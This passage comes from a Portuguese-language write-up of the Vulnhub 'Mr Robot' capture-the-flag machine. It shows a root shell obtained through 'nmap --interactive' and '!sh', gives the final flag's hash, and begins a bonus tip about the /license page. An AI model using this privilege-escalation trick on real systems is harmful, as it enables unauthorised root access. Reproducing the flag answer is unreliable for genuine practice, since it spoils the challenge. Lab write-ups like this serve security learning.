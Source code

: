 Conseguimos escalar privilelgio com o comando **nmap --interactive**

```bash
nmap --interactive
> !sh
```

![](/assets/img/Vulnhub/mrRobot/root-shell.png)


# Usuario "root"

Conseguimos pegar a ultima flag

## key-3-of-3.txt

![](/assets/img/Vulnhub/mrRobot/root-key3of3.png)

> - **04787ddef27c3dee1ee161b21670b4e4**


# Bonus

## Seja meticuloso!

Na pagina **/license** olhamos somente a parte superior, porem se rolarmos a barra da pagina para baixo encontraremos mais coisas... Ele nos da um hash
